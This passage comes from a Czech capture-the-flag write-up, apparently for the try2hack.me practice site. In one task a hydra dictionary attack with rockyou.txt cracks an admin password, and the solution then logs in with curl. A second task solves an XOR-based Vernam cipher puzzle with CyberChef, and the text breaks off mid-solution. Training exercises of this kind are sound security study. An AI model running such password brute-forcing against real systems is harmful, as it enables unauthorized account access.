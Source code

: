 ### Zadání:

Tajné heslo pro splnění tohoto úkolu je schované v heslem chráněné [administraci](https://try2hack.me/manage/). Podaří se ti do ní dostat pomocí slovníkového útoku?

---

### Postup řešení

```bash
hydra -s 443 -S -V -l admin -P ./rockyou.txt -e s -t 30 -m /manage/ try2hack.me https-get
# [443][http-get] host: try2hack.me   login: admin   password: falcon
curl https://admin:falcon@try2hack.me/manage/
```

---

<details><summary>FLAG:</summary></details>

---

## Úkol č. 12

### Zadání:

Zachytil jsi tajnou zprávu teroristické organizace. Podaří se ti ji rozluštit, pokud víš, že se jedná o Vernamovu šifru využívající operaci XOR nad klíčem, který je součástí textu Lorem Ipsum a odesilatel se v každé zprávě podepisuje jako *Ahmed*?

```
26041 f0f0a 54170 04f06 01011 b4f55 181d1 6001d 14005 d5722
13115 20000 00290 d1b0b 11401 91c29 49024 25433 010e0 017
```

```
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Nam pharetra euismod ex, et dignissim risus sollicitudin id. Fusce ac mi sed massa dictum rutrum eu a eros. Orci varius natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus. Mauris malesuada ultrices velit, non auctor justo varius in. Nullam eget consectetur odio. Sed euismod posuere enim, eu aliquet purus facilisis et. In hac habitasse platea dictumst. Proin elementum interdum lorem, eget egestas velit tincidunt vel. In imperdiet, eros congue porttitor malesuada, mi mi dignissim tellus, ut luctus magna neque nec turpis. Nam sed nulla quis elit tempor blandit placerat id enim. Morbi malesuada nibh sem, eu feugiat nibh rutrum ac. Mauris facilisis lorem ut lobortis maximus.
```

---

### Postup řešení

For this task we will use [CyberChef](https://gchq.github.io/CyberChef/).

The cypher text has `98` hex characters, therefore ASCII length of the cypher text, plain text and the key is `49` ASCII characters. We know that author always signs as `Ahmed`.


Converting `Ahmed` [to hex](https://gchq.github.io/CyberChef/#recipe=To_Hexdump(5,false,true)&input=QWhtZWQ) we get:
